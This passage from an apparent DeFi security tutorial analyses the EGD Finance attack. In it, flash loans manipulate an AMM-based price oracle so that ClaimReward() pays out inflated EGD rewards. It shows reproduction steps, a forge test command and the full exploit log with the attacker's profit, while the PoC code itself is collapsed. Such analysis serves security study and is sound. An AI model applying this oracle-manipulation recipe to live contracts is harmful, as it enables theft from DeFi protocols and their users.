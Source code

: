 ![getEGDPrice_Static](https://user-images.githubusercontent.com/26408530/211231574-bb7a652d-3538-4ca1-859d-a30962014d44.png)

So how is the attacker taking advantage of this unsafe method of getting current prices?

The underlying mechanism is such that, from the second flash loan the attacker borrowed a large amount of USDT, therefore influencing the pool price based on the `x * y = k` formula. Before returning the loan, the `getEGDPrice()`  will be incorrect.

Reference diagram:
![CleanShot 2023-01-12 at 17 01 46@2x](https://user-images.githubusercontent.com/107821372/212027306-3a7f9a8c-4995-472c-a8c7-39e5911b531d.png)
**Conclusion:  The attacker used a flash loan to alter the liquidity of the EGD/USDT trading pair, resulting in `ClaimReward()` getting an incorrect price, allowing the attacker to obtain an obscene amount of EGD tokens.**

Finally, the attacker exchanged EGD Token using Pancakeswap for USDT, thus profiting from the attack.


---

### Step 5: Reproduce

Now that we’ve fully understood the attack, let's reproduce it:

Step D. Write the PoC code for the attack

<details><summary>Click to show the code</summary></details>
<br>



Step E. Write the PoC code for the second flash loan using the exploit

<details><summary>Click to show the code</summary></details>
<br>

Step F.Execute the code with `forge test --contracts ./src/test/EGD-Finance.exp.sol -vvv`Pay attention to the change in balances.

[DeFiHackLabs - EGD-Finance.exp.sol](https://github.com/finn79426/DeFiHackLabs/blob/main/src/test/EGD-Finance.exp.sol)

```
Running 1 test for src/test/EGD-Finance.exp.sol:Attacker
[PASS] testExploit() (gas: 537204)
Logs:
  --------------------  Pre-work, stake 10 USDT to EGD Finance --------------------
  Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8
  Attacker Stake 10 USDT to EGD Finance
  -------------------------------- Start Exploit ----------------------------------
  [Start] Attacker USDT Balance: 0.000000000000000000
  [INFO] EGD/USDT Price before price manipulation: 0.008096310933284567
  [INFO] Current earned reward (EGD token): 0.000341874999999972
  Attacker manipulating price oracle of EGD Finance...
  Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve
  Flashloan[1] received
  Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve
  Flashloan[2] received
  [INFO] EGD/USDT Price after price manipulation: 0.000000000060722331
  Claim all EGD Token reward from EGD Finance contract
  [INFO] Get reward (EGD token): 5630136.300267721935770000
  Flashloan[2] payback success
  Swap the profit...
  Flashloan[1] payback success
  -------------------------------- End Exploit ----------------------------------
  [End] Attacker USDT Balance: 18062.915446991996902763

Test result: ok. 1 passed; 0 failed; finished in 1.66s
```


[^1]: Skim() :
[^2]: Internal function calls are invisible to the blockchain since they don't create any new transactions or blocks. In this way, they cannot be read by other smart contracts or show up in the blockchain transaction history.